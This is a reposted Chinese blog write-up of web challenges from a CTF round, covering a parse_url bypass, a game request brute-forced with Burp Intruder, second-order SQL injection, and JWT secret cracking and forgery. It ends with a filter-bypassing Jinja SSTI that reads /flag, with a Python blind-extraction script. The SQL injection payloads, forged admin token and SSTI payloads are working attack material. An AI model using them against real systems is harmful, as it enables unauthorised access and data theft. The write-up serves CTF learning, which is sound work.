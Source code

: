 ```yaml
---
layout:     post
title:      深入了解Json Web Token
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-714676.jpg
catalog: true
tags:
    - JWT
---
```




通过赛题深入了解JWT

比赛环境没关，可以找其他人借账号复现本次比赛题目，以下是网鼎杯第三场Web题解。

## Web

### comein

题目：由于运维人员失误，内网认证页面部署至了外网，不过还好，开发加了域名验证。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)

查看源码，发现如下代码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)

很明显又是考察 **parse_url** 函数绕过，只不过开头多了对点号的匹配，绕过即可。使用 **payload**：**.@c7f.zhuque.com/..//**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)

可以自己本地调试一下。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)

### gold

题目：还在上小学的小明同学开发了一款游戏，你能通关吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)

**Burpsuite** 抓包会发现浏览器一直发送POST数据，应该是通过Ajax来发起请求的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)

根据题目提示： **收集1000金币即可过关** 。尝试直接将参数 **getGod** 的值修改为1000，发现会触发检测机制。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)

于是使用 **Burpsuite** 抓包，用 **Intruder** 模块从0跑到1001，在 **getGod=1001** 的数据包中获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)

PS：用多线程跑会触发游戏的反作弊机制，用单线程按顺序跑就能出flag。

### phone

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)

看到这道题目，马上就想到 [2017广东省强网杯(第三题)](https://mochazz.github.io/2017/09/11/QWBCTF/) 。测试了一下，果然在用户注册处的电话处存在二次注入，测试结果如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)

可以发现这里查询结果为： **有1人和你电话相似哦~** ，而实际上这是我注册的第一个用户，数据库中不可能有用户的电话和我一样，所以应该是执行了我们刚刚构造的 **SQL语句** ，因为后面的布尔逻辑值为真。所以我们分别构造获取表名、列名、字段的 **payload** 如下：

获取表名：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
username=test4&password=test4&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)

获取列名：

```
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
username=test6&password=test6&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d22666c616722206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)

获取字段：

```
aaa' union select f14g from flag order by 1 desc#
username=test7&password=test7&phone=0x6161612720756e696f6e2073656c65637420663134672066726f6d20666c6167206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)

这里可能有人会不明白为什么要加上 **order by 1 desc** ，大家可以试试下面这个 **payload** ：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
username=test8&password=test8&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d6461746162617365282923&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)

实际上后台的 **SQL语句** 类似下图 **第一个SQL语句** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)

### i_am_admin

题目：你能登录进去吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)

抓取登录数据包，发现 **JWT** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)

登录进去可以发现用于加密的 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)

使用这个 **secret key** 到 <https://jwt.io/> 生成 **admin** 对应的 **token** 值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)

使用该 **token** 值访问网站即可获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)

### mmmmy

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)

抓包发现又是python的web程序，使用了JWT：(随手用test/test登录即可看到)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)

使用 [**c-jwt-cracker**](https://github.com/brendan-rius/c-jwt-cracker) 爆破 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)

发现只有 **admin** 才能用留言板功能，所以 **伪造admin的token** 登录：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)

**virink** 师傅提醒说留言板处存在 **SSTI** ，于是测试了下，果然存在，只不过过滤了 **{{}}** 的写法，那我们可以换成流程控制结构的写法 **{%if 表达式%}内容1{%else%}内容2{%endif%}** ，测试如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)

那么后面的数据就要盲注出来了，使用的 **payload** 类似如下:

```
text={%  if open('/flag','r').read()[0]=='f' %}1{%  else  %}0{%  endif  %}
```

这里实际上过滤了单、双引号，我们可以使用以下payload进行绕过：

```
text={% if request.values.e[18] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[0]%}good{%endif%}&a=__class__&b=__base__&c=__subclasses__&d=/flag&e=}-{0123456789abcdefghijklmnopqrstuvwxyz
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)

getflag程序如下：

```
import requests,sys
url = "http://4532bc69bc734acd8416204f0aa04f446e9d38024c5644e8.game.ichunqiu.com/bbs"
cookie = {
    "token" : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.IXEkNe82X4vypUsNeRFbhbXU4KE4winxIhrPiWpOP30"
}
chars = "}-{0123456789abcdefghijklmnopqrstuvwxyz"
flag = ''
for i in range(0,50):
    for j in range(0,len(chars)):
        data = {
            "text" : "{%% if request.values.e[%d] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[%d]%%}getflag{%%endif%%}" % (j,i),
            "a" : "__class__",
            "b" : "__base__",
            "c" : "__subclasses__",
            "d" : "/flag",
            "e" : chars
        }
        r = requests.post(url=url,data=data,cookies=cookie)
        if 'getflag' in r.text:
            flag += chars[j]
            sys.stdout.write("[+] "+ flag + '\r')
            sys.stdout.flush()
            if chars[j] == '}':
                print(flag)
                exit()
            else:
                break
print(len(r.text))
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)



转载自先知：https://xz.aliyun.com/t/2648

[深入了解Json Web Token之概念篇](https://www.freebuf.com/articles/web/180874.html)

[深入了解Json Web Token之实战篇](https://www.freebuf.com/articles/web/181261.html)

https://jwt.io/